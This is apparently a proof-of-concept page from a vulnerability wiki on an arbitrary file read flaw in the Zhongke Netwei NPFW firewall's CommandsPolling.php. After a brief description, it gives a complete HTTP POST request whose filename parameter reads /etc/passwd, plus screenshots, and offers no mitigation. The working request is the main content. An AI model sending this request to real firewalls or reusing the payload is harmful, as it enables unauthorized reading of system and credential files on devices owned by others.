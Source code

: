 # Zhongke Netwei NPFW Firewall CommandsPolling.php Arbitrary file reading vulnerability

## Vulnerability Description

Zhongke Netwei NPFW firewall has arbitrary file reading vulnerability. Due to insufficient code filtering, any file on the server can be read.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhongke Netwei NPFW Firewall </span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628698968275-7026aca2-33d4-4faa-9352-5a2f9bab7675.png)

Send a request packet

```php
POST /direct/polling/CommandsPolling.php HTTP/1.1
Host: 
Cookie: PHPSESSID=014d2705856e1df139772db42ccbaf9f
Content-Length: 47
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="92", " Not A;Brand";v="99", "Google Chrome";v="92"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close

command=ping&filename=%2Fetc%2Fpasswd&cmdParam=
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628699095412-3ee37eb5-54ed-4408-a13e-71159fc36610.png)